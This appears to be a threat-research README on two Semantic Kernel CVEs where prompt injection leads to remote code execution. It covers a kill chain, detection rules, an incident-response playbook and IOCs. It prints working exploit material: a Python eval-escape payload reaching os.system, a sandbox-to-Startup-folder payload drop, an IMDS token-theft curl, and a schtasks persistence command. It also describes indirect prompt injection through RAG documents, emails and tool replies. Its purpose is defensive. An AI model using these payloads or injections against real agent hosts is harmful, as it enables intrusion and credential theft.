

# Semantic Kernel Prompt-to-RCE — CVE-2026-26030 and CVE-2026-25592

## TL;DR

Microsoft Defender Security Research disclosed on 2026-05-07 two pre-patch vulnerabilities in `semantic-kernel`, Microsoft's open-source agent framework (27K stars, foundational under Copilot Studio, M365 Copilot extensions and Azure AI Foundry integrations). CVE-2026-26030 (CVSS 9.8) — the default filter of the Python `InMemoryVectorStore` interpolates a model-controlled string into a Python lambda executed with `eval()`; an AST traversal payload via `().__class__.__bases__[0].__subclasses__()` → `BuiltinImporter.load_module('os').system(...)` reaches host-level RCE. CVE-2026-25592 (CVSS 7.5) — the .NET SDK `SessionsPythonPlugin` accidentally exposed `DownloadFileAsync` as a `[KernelFunction]`, letting the model write the sandbox-generated payload directly to the Windows Startup folder of the agent host. Patched in `semantic-kernel >= 1.39.4` (PyPI) and `Microsoft.SemanticKernel >= 1.71.0` (NuGet). The class of bug — untrusted natural-language input mapped to system tools — is the structural successor of SQL string concatenation in agent runtimes.

## Attribution and confidence

This is a vulnerability research disclosure, not threat-actor tracking. There is no attributed campaign exploiting the bugs in the wild at publication time.

| Source | Identifier | Vendor | Confidence | Notes |
|---|---|---|---|---|
| Microsoft MSRC | CVE-2026-26030 | Microsoft Defender Research | high | Python In-Memory Vector Store filter eval — CVSS 9.8 |
| Microsoft MSRC | CVE-2026-25592 | Microsoft Defender Research | high | .NET SessionsPythonPlugin DownloadFileAsync — CVSS 7.5 |
| NVD | CVE-2026-26030 | NIST | high | Fixed in `semantic-kernel >= 1.39.4` |
| NVD | CVE-2026-25592 | NIST | high | Fixed in `Microsoft.SemanticKernel >= 1.71.0` |

Genealogy in this repo: this is the second deep dive on agentic-AI execution risk after Day 14 (AI-assisted compromise of a Mexican water utility, 2026-05-10). The Day 14 entry covered an operator-driven LLM pipeline; this entry covers a framework-level primitive that any operator can chain into RCE.

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Initial Access | T1190 | Prompt injection via direct chat, RAG document, email, ticket or tool reply. ATLAS AML.T0051 |
| Execution (CVE-2026-26030) | T1059.006 | Python AST traversal payload escapes lambda filter, reaches `os.system()` via `BuiltinImporter` |
| Execution / Defense Evasion (CVE-2026-25592) | T1106 | Misexposed `[KernelFunction] DownloadFileAsync` lets the model invoke arbitrary file write on the host |
| Privilege Escalation | T1552.005 | Workload identity token obtained from IMDS or local MSI endpoint inherits agent service principal scopes |
| Persistence | T1547.001 | Startup folder write on next user logon (canonical sink in the CVE-2026-25592 PoC) |
| Lateral Movement | T1078.004 | Cloud tokens enumerate Graph, ARM, KeyVault, Cosmos resources reachable by the agent identity |
| Collection | T1213 | RAG corpora, vector stores, mailbox contents, ticket systems and source repos accessed through legitimate tools |
| Exfiltration | T1567 | Egress carried by the agent's own HTTPS client; indistinguishable from legitimate tool-call traffic |
| Impact | — | Variable by deployment: dev-box credential theft, server-side data access, multi-tenant escape |



The left lane shows the victim agent host stages from prompt injection through impact; the right lane shows the prompt source (direct chat or indirect channel) plus the Azure Container Apps dynamic Python session that CVE-2026-25592 escapes. The detection-anchors box at the bottom maps every stage to the Sigma, KQL, YARA and Suricata rules shipped in this folder.

## Stage-by-stage detail

### Initial Access

Any channel that carries external text into the agent's context window is a viable injection vector. Direct user chat is the simplest. Indirect injection is the operationally interesting one: a poisoned PDF, MD file, Jira ticket, email forwarded to the assistant, KB article ingested by RAG, or HTML comment in a `search_web()` tool reply will all carry the payload across the trust boundary. The model itself is functioning correctly — it is the framework's mapping of model output to tool parameters that crosses the line.

### Execution — CVE-2026-26030 (Python)

The default filter of the `InMemoryVectorStore` is implemented as:

```python
# Vulnerable code path — semantic-kernel < 1.39.4
def default_filter(record, field_name, value):
    new_filter = f"lambda x: x.{field_name} == '{value}'"
    return eval(new_filter, {"__builtins__": {}}, {})
```

A pre-`eval()` validator parses the source into AST and (1) requires a single `ast.Lambda` body, (2) blacklists names such as `eval`, `exec`, `open`, `__import__`, (3) executes with `__builtins__ = {}`. The validator fails because the language's flexibility allows the attacker to reach the type system without any of those names. The canonical payload:

```python
# Adversarial argument: "' or <payload> or '"
lambda x: x.city == '' or (
   [c for c in ().__class__.__bases__[0].__subclasses__()
    if c.__name__ == 'BuiltinImporter'][0]()
   .load_module('os')
   .system('calc.exe')
) or ''
```

Bypass breakdown: `().__class__` is `tuple` (not in blocklist); `__bases__[0]` reaches `object`; `__subclasses__()` returns every loaded class including `BuiltinImporter`; `load_module('os')` imports `os` without using the `import` keyword and without depending on `__builtins__`; `system(...)` launches an arbitrary shell command. The validator's missing checks were `ast.Subscript` inspection and the four critical attribute names (`__name__`, `load_module`, `system`, `BuiltinImporter`).

### Execution / Defense Evasion — CVE-2026-25592 (.NET)

`SessionsPythonPlugin` brokers Azure Container Apps dynamic sessions for the agent to run Python in isolation. Two helpers cross the sandbox boundary on the host side: `UploadFileAsync` and `DownloadFileAsync`. In .NET SDK versions prior to 1.71.0, `DownloadFileAsync` was decorated with `[KernelFunction]`, the attribute that registers a method as a tool callable by the model. The `localFilePath` parameter — which `File.WriteAllBytes()` uses on the host — had no path validation, no allowlist, no canonicalisation.

The exploitation chain:

```text
1. Sandbox side — legitimate tool invocation
   ExecuteCode(code="""open('/tmp/payload.ps1','w').write('iex (...)')""")
   → /tmp/payload.ps1 created inside the Azure container

2. Sandbox escape — misexposed tool
   DownloadFileAsync(
     remoteFilePath="/tmp/payload.ps1",
     localFilePath=r"C:\Users\<svc>\AppData\Roaming\Microsoft\Windows" +
                   r"\Start Menu\Programs\Startup\sk_init.ps1"
   )
   → host File.WriteAllBytes() writes attacker payload to Startup folder

3. Persistence trigger
   On next user logon, Windows shell loads Startup folder entries
   → arbitrary code execution under the user's context
```

The symmetric primitive — `UploadFileAsync` reading arbitrary host paths into the sandbox — was noted by Microsoft in a footnote. It is the natural pre-pivot move (`id_rsa`, `~/.aws/credentials`, `%APPDATA%\Microsoft\Credentials\*`).

### Privilege Escalation

When the agent runs as a workload identity (Container Apps managed identity, Azure Function MSI, Azure AI Foundry compute identity), the post-RCE shell inherits that identity. The standard pivot:

```bash
curl -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://graph.microsoft.com/"
```

The blast radius is fully defined by the role assignments granted to the service principal. Treat any agent with high-privilege Graph scopes (`Mail.ReadWrite`, `Files.ReadWrite.All`, `Sites.FullControl.All`) or ARM contributor on production subscriptions as a crown-jewel host post-disclosure.

### Persistence

CVE-2026-25592 makes Startup folder the canonical persistence sink for the .NET path. For the Python path, post-exploit operators typically chain:

```powershell
schtasks /create /tn "SKUpdater" /tr "C:\ProgramData\agent\update.exe" /sc onlogon /ru "<agent-user>"
```

Plus optional WMI subscription or service install when the agent runs as SYSTEM or has admin equivalents in container contexts.

### Lateral Movement / Collection / Exfiltration

The sharpest defence challenge: egress from the agent process is indistinguishable from legitimate tool-call traffic at the transport layer. The only discriminator is destination — which is why H3 in this folder relies on a tenant-curated allowlist of model endpoints, declared tools and registered MCP servers.

## Detection strategy

### Telemetry that matters

| Source | What to look at |
|---|---|
| Sysmon EID 1 / Defender XDR `DeviceProcessEvents` | Children of `python.exe`, `dotnet.exe`, `node.exe` when their parent command line carries `semantic-kernel`, `SemanticKernel`, `SKAgent`, `kernel.run`, or `SessionsPythonPlugin` |
| Sysmon EID 11 / `DeviceFileEvents` | Writes to `*\Start Menu\Programs\Startup\*` initiated by the agent runtime processes above |
| Sysmon EID 3 / `DeviceNetworkEvents` | Egress from the agent process to destinations outside the tenant allowlist (model endpoints, declared tools, registered MCP servers) |
| `DeviceImageLoadEvents` | Presence of `Microsoft.SemanticKernel*.dll` to enumerate agent hosts across the estate |
| Application logs (custom collector for agent runtime) | Tool-call arguments containing AST traversal anchors: `__subclasses__`, `__class__.__bases__`, `BuiltinImporter`, `load_module`, `os.system`, `subprocess.Popen` |
| Azure Container Apps audit | `DownloadFileAsync` / `UploadFileAsync` calls outside an explicit allowlist of host directories |
| Entra ID `SigninLogs`, `AADServicePrincipalSignInLogs` | Scope diversity spike from the agent service principal — particularly Graph `Mail.ReadWrite`, `Files.ReadWrite.All`, ARM contributor |

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | [sigma/sk_agent_host_spawns_shell_lolbin.yml](./sigma/sk_agent_host_spawns_shell_lolbin.yml) | Shell or recon LOLBin spawned by a Semantic Kernel agent runtime |
| Sigma | [sigma/sk_agent_writes_startup_folder.yml](./sigma/sk_agent_writes_startup_folder.yml) | Agent runtime writes to a Windows Startup folder (T1547.001) |
| Sigma | [sigma/sk_prompt_injection_ast_traversal_payload.yml](./sigma/sk_prompt_injection_ast_traversal_payload.yml) | Agent application log message contains AST traversal anchors |
| KQL | [kql/sk_host_spawns_shell_lolbin.kql](./kql/sk_host_spawns_shell_lolbin.kql) | Defender XDR adaptation of the Microsoft-published advanced hunting query, extended with broader LOLBin set |
| KQL | [kql/sk_host_writes_startup_folder.kql](./kql/sk_host_writes_startup_folder.kql) | Defender XDR `DeviceFileEvents` Startup folder write by agent runtime |
| KQL | [kql/sk_filter_string_ast_traversal.kql](./kql/sk_filter_string_ast_traversal.kql) | Sentinel custom log table heuristic for AST traversal anchors in agent runtime logs |
| YARA | [yara/sk_prompt2rce_heuristic.yar](./yara/sk_prompt2rce_heuristic.yar) | Two heuristics: AST traversal payload band + SessionsPython sandbox escape band |
| Suricata | [suricata/sk_prompt2rce_anchors.rules](./suricata/sk_prompt2rce_anchors.rules) | sids 8140001-8140003: AST traversal in body, DownloadFileAsync → Startup, UploadFileAsync exfil sink |

### Threat hunting hypotheses

H1 — agent runtime spawns a shell or recon LOLBin in a short window after a tool call. H2 — agent service principal emits token requests for scopes outside its 30-day baseline. H3 — agent egresses to destinations outside the tenant allowlist of model endpoints, declared tools and registered MCP servers. All three live in [hunts/peak_h1_h2_h3.md](./hunts/peak_h1_h2_h3.md).

## Incident response playbook

### First 60 minutes (triage)

1. Identify the agent host by `DeviceName` from the H1 or H2 query result. Do not reboot or shut down — stages 2 to 4 may live exclusively in agent process memory.
2. Network-isolate the host while keeping telemetry up.
3. Capture RAM from the agent PID using Defender for Endpoint Live Response `memdump` or `winpmem`. The `python.exe`/`dotnet.exe` process is the target.
4. Snapshot the agent's on-disk vector store (`*.json`, `*.parquet`, Chroma, Qdrant, FAISS). A poisoned record can re-detonate on next agent start.
5. Enumerate every `[KernelFunction]` exposed in the agent to define authorised tool scope. Anything with `File*`, `Process*`, `Http*`, `Db*` in the signature is high priority.
6. Identify the agent's service principal or managed identity and the role assignments it holds. Prepare rotation.

### Artifacts to collect

| Artifact | Path | Tool | Why it matters |
|---|---|---|---|
| Agent runtime logs | `%LOCALAPPDATA%\Microsoft\SemanticKernel\logs\`, `/var/log/sk_agent/` | log shipper, `Get-ChildItem` | Tool-call arguments may contain the literal AST traversal payload |
| Vector store on-disk | `%APPDATA%\<agent_name>\vectors\*.json` | host file copy | Persistent injection smuggle |
| Python package version | `pip show semantic-kernel` | PowerShell / shell | Confirms vulnerable range (<1.39.4) |
| .NET assembly version | `Get-Item Microsoft.SemanticKernel.dll | Select VersionInfo` | PowerShell | Confirms vulnerable range (<1.71.0) |
| Sandbox session logs | Azure portal → Container Apps → revision → Console logs | Azure CLI | `DownloadFileAsync` / `UploadFileAsync` audit |
| Startup folder | `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\`, `%ProgramData%\Microsoft\Windows\Start Menu\Programs\StartUp\` | host file copy | T1547.001 drop sink |
| Process tree dump | live response | `pslist`, EDR | Confirm child shells |
| Network connections | live response | `netstat -anob`, `Get-NetTCPConnection` | Egress C2 |
| Identity sign-in logs | Entra ID portal, Sentinel `AADServicePrincipalSignInLogs` | KQL | Token replay scope |

### IR queries and commands

```powershell
# Inventory Semantic Kernel installations across the estate (run on each candidate host)
Get-ChildItem -Path C:\,D:\ -Recurse -Include 'Microsoft.SemanticKernel*.dll' -ErrorAction SilentlyContinue |
    Select FullName, @{N='FileVersion';E={$_.VersionInfo.FileVersion}}

& python -m pip list --format=json |
    ConvertFrom-Json |
    Where-Object { $_.name -like '*semantic-kernel*' }

# Recent agent-runtime writes to the Startup folder
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational';Id=11} -MaxEvents 5000 |
    Where-Object { $_.Properties[4].Value -like '*Start Menu*Startup*' -and
                   $_.Properties[3].Value -match 'python|dotnet|node' } |
    Select TimeCreated,
           @{N='Image';E={$_.Properties[3].Value}},
           @{N='Target';E={$_.Properties[4].Value}}
```

```bash
# Linux or container-side
docker exec <ctr> pip show semantic-kernel | grep -i version
kubectl logs -l app=sk-agent --since=72h | \
    grep -E 'subclasses|load_module|os\.system|DownloadFileAsync'
```

```kql
// Estate-wide surface — every host running a Semantic Kernel agent in the last 30 days
DeviceProcessEvents
| where Timestamp > ago(30d)
| where ProcessCommandLine matches regex @"(?i)semantic[\s_\-]?kernel|SKAgent|kernel\.run"
   or InitiatingProcessCommandLine matches regex @"(?i)semantic[\s_\-]?kernel|SKAgent|kernel\.run"
| summarize First=min(Timestamp), Last=max(Timestamp), Hits=count() by DeviceName, AccountName, FileName
| sort by Hits desc
```

### Containment, eradication, recovery

Containment. Isolate the host. Revoke refresh tokens for the agent service principal (`Update-MgServicePrincipalCredential` to rotate secret; `Revoke-MgUserSignInSession` for users). Suspend the agent app in Copilot Studio or Foundry until the patched build is rolled out.

Eradication. Upgrade `semantic-kernel >= 1.39.4` (PyPI) and `Microsoft.SemanticKernel >= 1.71.0` (NuGet) on every agent runtime. Review every `[KernelFunction]` exposed by the agent for similar accidental tool exposure (any `File*`, `Process*`, `Http*`, `Db*` method without explicit input validation). Re-image the host when RCE is confirmed — Startup folder cleanup alone is insufficient.

Recovery. Rebuild the vector store from trusted sources. Validate the patch with the Microsoft-published CTF harness at `https://github.com/amiteliahu/AIAgentCTF/tree/main/CVE-2026-26030` in an isolated lab.

What NOT to do. Do not reboot or shut down the host before acquiring RAM. Do not delete the Startup folder script as the only eradication step — operators add redundant persistence. Do not trust the agent's own output during triage — the model may have been instructed to lie. Do not upgrade in production without first cataloguing the host's `[KernelFunction]` exposure.

### Recovery validation

A host is considered recovered when: (a) `semantic-kernel` is at a patched version, verified by `pip show` or `Get-Item .dll`; (b) the agent's service principal credential has been rotated and refresh tokens revoked; (c) the agent's vector store has been rebuilt from a trusted source; (d) the CTF reproduction fails to pop on the patched build; (e) the H1 and H2 hunts return zero hits in a 72-hour observation window.

## IOCs

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| cve | CVE-2026-26030 | Semantic Kernel Python <1.39.4 — InMemoryVectorStore filter eval RCE | high | NVD |
| cve | CVE-2026-25592 | Semantic Kernel .NET <1.71.0 — SessionsPythonPlugin sandbox escape | high | NVD |
| string | `().__class__.__bases__[0].__subclasses__()` | AST traversal anchor used in the exploit | high | Microsoft Defender Research |
| string | `BuiltinImporter` | Class name pivoted to load `os` from a sandboxed lambda | high | Microsoft Defender Research |
| string | `load_module('os')` | Module load primitive bypassing empty `__builtins__` | high | Microsoft Defender Research |
| string | `os.system(` | Common exec sink chained after AST traversal | high | Microsoft Defender Research |
| string | `DownloadFileAsync` | Misexposed `[KernelFunction]` enabling sandbox-to-host file write | high | Microsoft Defender Research |
| string | `UploadFileAsync` | Symmetric primitive enabling host-to-sandbox arbitrary file read | high | Microsoft Defender Research |
| string | `SessionsPythonPlugin` | Plugin brokering Azure Container Apps sessions | high | Microsoft Defender Research |
| path | `*\Start Menu\Programs\Startup\*` | Persistence sink for CVE-2026-25592 | high | Microsoft Defender Research |
| url | https://github.com/amiteliahu/AIAgentCTF/tree/main/CVE-2026-26030 | Microsoft-published CTF harness | high | Microsoft |
| url | https://github.com/microsoft/semantic-kernel/pull/13478/changes | Patch diff for .NET SDK 1.71.0 | high | Microsoft |
| note | Patched cut-offs: `semantic-kernel >= 1.39.4`, `Microsoft.SemanticKernel >= 1.71.0` | Reference for exposure-window computation | high | MSRC |

Full IOC list lives at [iocs.csv](./iocs.csv).

## Secondary findings

- CrewAI — four vulnerabilities published in 2026 by Cyata research: **CVE-2026-2275** (CodeInterpreter fallback to `SandboxPython` with `ctypes` when Docker unavailable, leading to RCE), **CVE-2026-2286** (RAG search SSRF), **CVE-2026-2287** (missing Docker liveness re-check forcing permanent fallback to insecure sandbox), **CVE-2026-2285** (JSON loader arbitrary file read). No complete patch available at time of disclosure. Vendor advisory: CERT/CC VU#221883. Detection shape mirrors Semantic Kernel — but the sink is `ctypes.CDLL` direct, not Python `eval()`.
- Windsurf 1.9544.26 — **CVE-2026-30615 (CVSS 8.0)** zero-click MCP STDIO command injection. Attacker-controlled HTML processed by the IDE rewrites the local MCP JSON configuration and registers a malicious STDIO server; the MCP SDK then spawns it. No user click required. Third of four exploitation families in the OX Security advisory dated 2026-04-15. Documents the **"MCP config write-then-spawn"** primitive as a new class of attack on developer agentic tooling.
- Microsoft Entra ID Actor Token vulnerability (Mitiga research) — allowed silent authentication as any user in any tenant Entra ID, with no sign-in logs, no Conditional Access enforcement, no MFA prompts. Already remediated by Microsoft but the pattern of "actor token as primary-auth bypass" warrants a retrospective review of historical sign-in logs for any anomalous tokens during the exposure window.

## Pedagogical anchors

- The LLM is not a security boundary. Treat any tool parameter the model can influence as attacker-controlled, exactly as you would treat any HTTP request parameter in a web app.
- Allowlists beat blocklists in dynamic languages. Python's type system is flexible enough to reintroduce every restricted operation via alternate syntax (`obj['__class__']` vs `obj.__class__`, `__subclasses__()`, `__bases__`).
- `[KernelFunction]` is the modern equivalent of "marked as public" — every method so marked is part of the attack surface. Audit your `Http*`, `File*`, `Process*`, `Db*` surface explicitly.
- Defence in depth must couple framework-level guardrails (AST allowlist, path canonicalisation) with host-level EDR (process-tree, file-event, identity-token telemetry).
- Treat the agent-host process as a privileged identity and not an end-user workload. The egress profile of a healthy agent is small, stable and allowlist-able; deviations are the cleanest signal you have.

## What's in this folder

| File | Purpose |
|---|---|
| [README.md](./README.md) | This document — full case write-up |
| [kill_chain.svg](./kill_chain.svg) | GitHub-friendly adaptive kill-chain diagram |
| [sigma/sk_agent_host_spawns_shell_lolbin.yml](./sigma/sk_agent_host_spawns_shell_lolbin.yml) | Sigma rule — process creation child of agent runtime |
| [sigma/sk_agent_writes_startup_folder.yml](./sigma/sk_agent_writes_startup_folder.yml) | Sigma rule — file event under Startup folder |
| [sigma/sk_prompt_injection_ast_traversal_payload.yml](./sigma/sk_prompt_injection_ast_traversal_payload.yml) | Sigma rule — AST traversal anchors in agent application logs |
| [kql/sk_host_spawns_shell_lolbin.kql](./kql/sk_host_spawns_shell_lolbin.kql) | KQL — Defender XDR `DeviceProcessEvents` child LOLBin |
| [kql/sk_host_writes_startup_folder.kql](./kql/sk_host_writes_startup_folder.kql) | KQL — Defender XDR `DeviceFileEvents` Startup folder write |
| [kql/sk_filter_string_ast_traversal.kql](./kql/sk_filter_string_ast_traversal.kql) | KQL — Sentinel custom log heuristic for AST traversal |
| [yara/sk_prompt2rce_heuristic.yar](./yara/sk_prompt2rce_heuristic.yar) | YARA — two heuristics covering both CVEs |
| [suricata/sk_prompt2rce_anchors.rules](./suricata/sk_prompt2rce_anchors.rules) | Suricata 7.x — HTTP body anchors and sandbox-escape sinks |
| [hunts/peak_h1_h2_h3.md](./hunts/peak_h1_h2_h3.md) | PEAK hunts H1/H2/H3 — process-tree, identity scope, egress allowlist |
| [iocs.csv](./iocs.csv) | Full IOC table — CVEs, strings, paths, patches, references |

## Sources

- [When prompts become shells: RCE vulnerabilities in AI agent frameworks — Microsoft Security Blog, 2026-05-07](https://www.microsoft.com/en-us/security/blog/2026/05/07/prompts-become-shells-rce-vulnerabilities-ai-agent-frameworks/)
- [NVD — CVE-2026-26030 Semantic Kernel InMemoryVectorStore](https://nvd.nist.gov/vuln/detail/CVE-2026-26030)
- [NVD — CVE-2026-25592 Semantic Kernel SessionsPythonPlugin](https://nvd.nist.gov/vuln/detail/CVE-2026-25592)
- [GitLab Advisory — CVE-2026-26030 semantic-kernel Python](https://advisories.gitlab.com/pkg/pypi/semantic-kernel/CVE-2026-26030/)
- [Semantic Kernel PR #13478 — patch diff for SessionsPythonPlugin](https://github.com/microsoft/semantic-kernel/pull/13478/changes)
- [Microsoft CTF challenge — interactive CVE-2026-26030 harness](https://github.com/amiteliahu/AIAgentCTF/tree/main/CVE-2026-26030)
- [CERT/CC VU#221883 — CrewAI SSRF / RCE / file-read disclosure](https://kb.cert.org/vuls/id/221883)
- [OX Security — MCP supply chain RCE advisory covering Windsurf CVE-2026-30615, LangFlow, GPT Researcher, LiteLLM](https://www.ox.security/blog/mcp-supply-chain-advisory-rce-vulnerabilities-across-the-ai-ecosystem/)
- [Mitiga — Entra ID Actor Token vulnerability](https://www.mitiga.io/blog/breaking-down-the-microsoft-entra-id-actor-token-vulnerability-the-perfect-crime-in-the-cloud)
